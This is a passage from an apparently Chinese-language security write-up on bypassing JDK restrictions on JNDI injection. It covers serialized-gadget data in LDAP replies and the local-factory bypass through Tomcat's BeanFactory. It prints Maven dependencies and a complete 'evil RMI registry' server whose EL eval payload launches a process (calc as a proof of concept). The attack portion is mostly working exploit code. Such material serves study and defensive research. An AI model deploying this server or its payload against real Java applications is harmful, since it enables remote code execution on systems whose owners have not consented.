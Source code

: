 服务端代码可以参考`marshalsec`，然后添加对应属性`javaSerializedData`为我们的Gadgets序列化的数据即可

```
e.addAttribute("javaSerializedData", GadgetsData);
```

## 通过加载本地类

之前在分析RMI的时候提到过在加载远程类之前,会先加载本地类

在`JDK 11.0.1、8u191、7u201、6u211之后`之后`com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值为`false`，我们就不能再从远程的`Codebase`加载恶意的`Factory`类了,那假如加载的是本地类呢

需要注意的，该工厂类型必须实现`javax.naming.spi.ObjectFactory` 接口，因为在`javax.naming.spi.NamingManager#getObjectFactoryFromReference`最后的`return`语句对工厂类的实例对象进行了类型转换`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`；并且该工厂类至少存在一个 `getObjectInstance()` 方法才能在前面调用

https://www.veracode.com/blog/research/exploiting-jndi-injections-java的作者找到可利用的类为：`org.apache.naming.factory.BeanFactory`，并且该类存在于Tomcat依赖包中，所以利用范围还是比较广泛的

添加依赖

```
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端

```
package JNDI.Bypass.loader;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```
